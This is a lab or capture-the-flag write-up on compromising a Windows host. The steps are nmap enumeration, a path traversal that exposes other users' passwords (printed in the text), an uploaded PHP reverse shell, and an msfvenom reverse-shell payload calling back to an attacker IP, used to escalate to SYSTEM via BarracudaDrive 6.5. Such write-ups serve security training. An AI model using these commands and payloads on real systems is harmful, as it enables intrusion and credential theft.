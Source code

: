 #Pwned! 
```IP
192.168.150.127
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.150.127 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3306/tcp  open  mysql?        syn-ack ttl 125
| mysql-info:
|_  MySQL Error: Host '192.168.45.189' is not allowed to connect to this MariaDB server
| fingerprint-strings:
|   Help, Kerberos, NULL, NotesRPC, WMSRequest, X11Probe, afp:
|_    Host '192.168.45.189' is not allowed to connect to this MariaDB server
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
8000/tcp  open  http-alt      syn-ack ttl 125 BarracudaServer.com (Windows)
30021/tcp open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta                
33033/tcp open  unknown       syn-ack ttl 125
44330/tcp open  ssl/unknown   syn-ack ttl 125                                           45332/tcp open  http          syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)                
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
|_http-title: Quiz App
45443/tcp open  http          syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)                
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
|_http-title: Quiz App
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## FTP 30021
FileZilla ftpd 0.9.41 beta
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211092557.png?raw=true)

## HTTP 8000
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211090801.png?raw=true)
BarracudaDrive 6.5
PE https://www.exploit-db.com/exploits/48789
fuzzing different extensions to upload a file
```
ffuf -request files/ext.req -request-proto http -w /usr/share/SecLists-master/Fuzzing/extensions-Bo0oM.txt
```
none works

## HTTP 33033
we can update passwords
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211094745.png?raw=true)
and we can path traversal to other users and see their passwords
```
4qpdR87QYjRbog
xuk1EuP3N/rCpA
AJqKXnKVwhcSkg
WgsjOZwtOyCRSg
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211095528.png?raw=true)
# Exploitation

it is possible to navigate through directories in HTTP 8000. I got stuck a lot of time because I couldnt click on C, so it didn't seem like a directory....
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105130.png?raw=true)
Once a revshell has been uploaded to the latter directory, you can access it via  
```
http://192.168.150.127:45332/shell2.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105019.png?raw=true)
and type the local flag
# PrivEsc

## Manual
lets try the PE vulnerability found in BarracudaDrive 6.5
https://www.exploit-db.com/exploits/48789

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211105508.png?raw=true)
create a malicious revshell. substitute bd.exe and restart the computer
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.189 LPORT=4444 -f exe > reverse.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211110042.png?raw=true)
we are nt authority system
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241211110129.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

